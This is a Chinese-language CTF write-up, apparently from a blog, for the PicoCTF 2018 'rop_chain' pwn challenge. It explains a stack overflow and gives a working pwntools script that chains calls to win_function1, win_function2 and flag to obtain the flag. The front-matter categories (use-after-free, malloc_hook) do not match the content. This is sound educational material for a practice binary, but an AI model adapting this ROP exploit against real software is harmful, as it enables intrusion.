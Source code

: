 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

<img src="../assets/img/old_imgs/image-20231223201523448.png" alt="image-20231223201523448" style="zoom:150%;" />

- 函数参数劫持
- 整数型绕过
- `\x00`绕过`len()`

1. 函数`vuln`中存在栈溢出

![image-20231223201440814](../assets/img/old_imgs/image-20231223201440814.png)

2. `flag`是后门函数,只要满足`win1 && win2`和`a1 = 0xDEADBAAD`就可以得到`flag`

![image-20231223201807526](../assets/img/old_imgs/image-20231223201807526.png)

3.`win1 & win2`存在于`.bss`段上,但是可以利用`win_function1 & win_function2`两个函数构造

<img src="../assets/img/old_imgs/image-20231223202105353.png" alt="image-20231223202105353"  />

> win1

<img src="../assets/img/old_imgs/image-20231223202117211.png" alt="image-20231223202117211" style="zoom:67%;" />

> win2

```python
from pwn import *
#context.log_level = 'debug'
#io = gdb.debug('./PicoCTF_2018_rop_chain','break *080485CB')
io = process('./PicoCTF_2018_rop_chain')
offset = 0x18+4
elf = ELF('./PicoCTF_2018_rop_chain')
payload1 = b'A'*offset+p32(elf.sym['win_function1'])+p32(elf.sym['win_function2'])+p32(elf.sym['flag'])+p32(0xBAAAAAAD)+p32(0xDEADBAAD)
#溢出专跳到`win_function1`初始化win1,再到`win_function2`同时传入覆盖`win_function2`的参数a,最后跳转到`flag`函数相同操作
io.sendlineafter(b'Enter your input>',payload1)
io.interactive()
```